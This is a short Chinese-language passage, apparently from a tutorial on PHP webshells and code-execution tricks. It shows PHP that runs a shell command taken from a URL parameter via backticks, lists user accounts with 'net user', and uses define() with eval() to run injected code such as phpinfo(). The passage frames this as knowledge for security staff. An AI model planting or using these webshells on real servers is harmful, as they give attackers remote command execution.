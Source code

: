 
**可直接执行CMD命令**
```php
<?php
$cmd =base64_decode('dmVy='); // ver
echo `$cmd`. `$_GET[shell]`;  //shell_exec,执行系统命令
//或
$var = `net user`;
echo "$var";
?>

```
![](img/23.png)

**变量覆盖**
```php
<?php

    define($_GET[a], $_GET[b]);

    eval(A);

    ?>
```

先外部传入a=A 定义A变量，再通过传入b=phpinfo();给A变量赋值，即可完成利用，因此这就要求安全人员尽可能尽可能覆盖所有的变量传播方式，同时这也是一个积累与完善的过程。

![](img/29.png)

